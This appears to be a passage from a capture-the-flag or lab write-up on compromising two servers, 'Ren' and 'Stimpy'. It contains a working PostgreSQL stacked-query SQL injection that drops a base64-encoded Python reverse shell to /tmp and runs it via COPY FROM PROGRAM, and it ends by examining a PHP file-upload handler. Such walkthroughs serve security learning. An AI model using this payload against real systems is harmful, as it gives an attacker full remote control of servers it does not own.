 this query dynamically inserts `categoryId` without any sanitization. using a stacked SQL query, i injected a reverse shell payload that would connect back to my machine, giving me full remote access to the server.

```python
b64payload = base64.b64encode(f'''
import socket, subprocess, os, pty;
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("{IP}", 5555));
os.dup2(s.fileno(), 0);
os.dup2(s.fileno(), 1);
os.dup2(s.fileno(), 2);
pty.spawn("/bin/bash")
'''.encode('utf-8'))

session.get(target + "/admin/users/category?id=1; COPY(SELECT convert_from(decode('" + b64payload.decode('utf-8') + "', 'base64'), 'utf-8')) to '/tmp/shell.py'; DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'python3 /tmp/shell.py';")
```

`socket.socket()` creates a new network socket, and `s.connect()` makes the target connect to my IP address over port `5555`. `os.dup()` redirect the standard input, output, and error file descriptors (`0`, `1`, `2`) to the socket `s`. any command executed on the target will be sent back to me via the socket.

`pty.spawn()` spawns a bash shell, which gives me an interactive command-line session on the target. encoding everything in base64 just means i can transmit binary/special characters as plaintext. 

the target URL `/admin/users/category?id=1` is vulnerable to SQL injection via stacked queries. this means i can append + execute additional SQL commands after the legitimate query.

the base64-encoded payload is injected into the SQL query via `id`, after which the query decodes the payload back to the original Python code, and writes the decoded payload to a temporary file `/tmp/shell.py` on the server, using `COPY` (PostgreSQL).

once the payload is in `/tmp/shell.py`, the SQL injection creates + runs the reverse shell by executing `COPY cmd_exec FROM PROGRAM 'python3 /tmp/shell.py'`. this allows the execution of external programs, running the shell script on the target. the commands `DROP TABLE IF EXISTS cmd_exec` and `CREATE TABLE cmd_exec` are just regular commands used to create temporary tables. i included them just to make the query structure valid in PostgreSQL.


now that Ren's fully compromised, i turned my attention to Stimpy. the first vulnerability i found was in the **file upload** functionality.

```php
public function importInvoices($request, $response) {
    $user = $this->container['auth']->user();
    $directory = $this->container->settings['importDirectory'];
    $uploadedFiles = $request->getUploadedFiles();
    $uploadedFile = $uploadedFiles['file'];
    if ($uploadedFile->getError() === UPLOAD_ERR_OK) {
        $filename = $uploadedFile->getClientFilename();
        $f_validation = $this->container->validator->validate([
            "filename" => $filename
        ], [
            'filename' => v::alnum('.')
        ]);
        if ($f_validation->failed()) {
            return $this->container->helper->error($f_validation->errors, $response);
        }
        if (in_array(pathinfo($filename, PATHINFO_EXTENSION), $this->container->settings['restrictedExt'])) {
            return $this->container->helper->error(["Invalid Extension" => ["Extension is not allowed"]], $response);
        }
    }
}
```